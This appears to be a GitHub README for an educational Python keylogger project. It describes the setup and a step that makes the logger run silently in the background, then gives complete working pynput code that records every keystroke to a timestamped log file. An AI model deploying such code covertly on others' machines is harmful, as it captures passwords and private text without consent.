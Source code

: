 # Keylogger Project

## Objective

This project involves building a Python-based keylogger to record keyboard inputs for educational purposes and demonstrate ethical hacking techniques. The goal is to understand how keyloggers operate, learn the principles of monitoring input devices, and emphasize the importance of securing systems against such threats.

> **Note:** This project is strictly for educational use and ethical learning.

---

## Skills Learned

- Proficiency in Python programming for interacting with operating system APIs.
- Understanding of keylogging mechanisms and input capture techniques.
- Hands-on experience with libraries like `pynput` for monitoring keyboard inputs.
- Knowledge of secure data handling and logging practices.
- Awareness of ethical hacking principles and system protection strategies.

---

## Tools Used

- **Python 3** for development.
- Libraries:
  - `pynput` for capturing keyboard inputs.
  - `logging` for structured logging.
  - `os` for directory management.
- **Virtual Machine** (e.g., VirtualBox) for safe testing.

---

## Steps

1. **Set Up the Environment:**
   - Installed Python 3 and the `pynput` library.
   - Configured the environment for secure logging and file management.

2. **Capture Keyboard Inputs:**
   - Used the `pynput` library to monitor and record keyboard inputs.
   - Ensured the logs were stored securely in a designated directory.

3. **Implement Structured Logging:**
   - Utilized the `logging` library to format and store captured keystrokes.
   - Designed log files with timestamps for traceability.

4. **Set Up Logging Directory:**
   - Created a specific directory (`C:\Users\HP\OneDrive\Documents\cisco`) for storing log files.
   - Ensured proper permissions and access control for the directory.

5. **Implement Background Functionality:**
   - Set up the keylogger to run silently in the background without user interruption.

6. **Test and Debug:**
   - Tested the keylogger in a secure virtual machine to validate input capture and log storage.
   - Debugged any issues with logging and file management.

7. **Document Ethical Usage:**
   - Emphasized the ethical guidelines and educational purpose of the project.

---![keylogger 1](https://github.com/user-attachments/assets/b2f5ad51-f491-4c5c-bc35-b4eb13ec5440)


## Example Code

Here’s the implementation:

```python
from pynput.keyboard import Key, Listener
import logging

# Directory where the log file will be saved
log_dir = r"C:\Users\HP\OneDrive\Documents\cisco"

# Set up logging
logging.basicConfig(
    filename=log_dir + r"\keylog.txt", 
    level=logging.DEBUG, 
    format='%(asctime)s: %(message)s'
)

# Function to be called when a key is pressed
def on_press(key):
    try:
        # Log the key pressed
        logging.info(str(key))
    except Exception as e:
        logging.error(f"Error: {e}")

# Set up the listener
with Listener(on_press=on_press) as listener:
    listener.join()
